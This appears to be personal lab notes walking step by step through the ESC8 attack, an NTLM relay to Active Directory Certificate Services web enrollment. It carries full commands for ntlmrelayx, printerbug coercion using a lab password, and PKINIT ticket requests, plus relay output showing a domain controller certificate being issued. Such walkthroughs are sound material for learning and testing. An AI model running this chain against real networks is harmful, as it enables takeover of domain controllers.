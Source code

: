 `ESC8`—as described in the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) paper—is an NTLM relay attack targeting an ADCS HTTP endpoint. ADCS supports multiple enrollment methods, `including web enrollment`, which by default occurs over HTTP. A certificate authority configured to allow web enrollment typically hosts the following application at `/CertSrv`:
![[Pasted image 20250626194802.png]]
Attackers can use Impacket’s [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to listen for inbound connections and relay them to the web enrollment service using the following command:
```shell-session
$ impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```
## `--template` value
`--template` may be different in other environments. This is simply the certificate template which is used by Domain Controllers for authentication. This can be enumerated with tools like [certipy](https://github.com/ly4k/Certipy).


## Coerce DC   to connect to Attacker
force machine accounts to authenticate against arbitrary hosts is by exploiting the [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py). This attack requires the targeted machine account to have the `Printer Spooler` service running. The command below forces `10.129.234.109 (DC01)` to attempt authentication against `10.10.16.12 (attacker host)`:

```shell-session
python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12
```


Referring back to `ntlmrelayx`, we can see from the output that the authentication request was successfully relayed to the web enrollment application, and a certificate was issued for `DC01$`:

```shell-session
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.129.234.109, attacking target http://10.129.234.110
[*] HTTP server returned error code 404, treating as a successful login
[*] Authenticating against http://10.129.234.110 as INLANEFREIGHT/DC01$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.129.234.109, attacking target http://10.129.234.110
[-] Authenticating against http://10.129.234.110 as / FAILED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 8
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file
```

We can now perform a `Pass-the-Certificate` attack to obtain a TGT as `DC01$`. One way to do this is by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). First, let's clone the repository and install the dependencies

request TGT, get ccache file
```shell-session
$ python3 gettgtpkinit.py -cert-pfx DC01$.pfx -dc-ip [TARGET-DC] 'inlanefreight.local/dc01$' /tmp/dc.ccache

#and import to env
KRB5CCNAME=/tmp/dc.ccache
```

## fix for timing error
if you get skew error match the DC's time
```
─$ sudo ntpdate 10.129.9.56
[sudo] password for demise: 
2025-06-26 13:36:04.685418 (-0400) +736.494994 +/- 0.034218 10.129.9.56 s1 no-leap
CLOCK: time stepped by 736.494994
```
![[Pasted image 20250626203701.png]]